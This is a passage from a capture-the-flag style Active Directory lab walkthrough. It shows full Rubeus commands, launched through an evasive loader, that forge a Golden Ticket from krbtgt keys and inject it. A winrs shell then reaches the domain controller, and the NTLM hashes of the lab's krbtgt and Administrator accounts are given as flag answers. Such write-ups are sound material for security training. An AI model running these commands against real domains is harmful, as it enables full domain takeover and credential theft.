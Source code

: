 ### 2 - Using the secrets of krbtgt account, create a Golden ticket

We can create a golden ticket using the following Rubeus command:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

```powershell
C:\AD\Tools\Loader.exe Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:727 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD
```

now we need to add this command as argument to Loader and forge a Golden ticket adding`C:\AD\Tools\Loader.exe -path`  and `/ptt` at the end of the generated command to inject it in the current process:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:152 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

### 3 - Use the Golden ticket to (once again) get domain admin privileges from a machine

After importing golden ticket, we can access and check our privileges

```powershell
winrs -r:dcorp-dc cmd
set username
set computername
```

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### Flag 16 \[dcorp-dc] - NTLM hash of krbtgt  🚩

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

NTLM : `4e9815869d2090ccfca61c1fe0d23986`

### Flag 17 \[dcorp-dc] - NTLM hash of domain administrator - Administrator 🚩

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

NTLM : `af0686cc0ca8f04df42210c9ac980760`
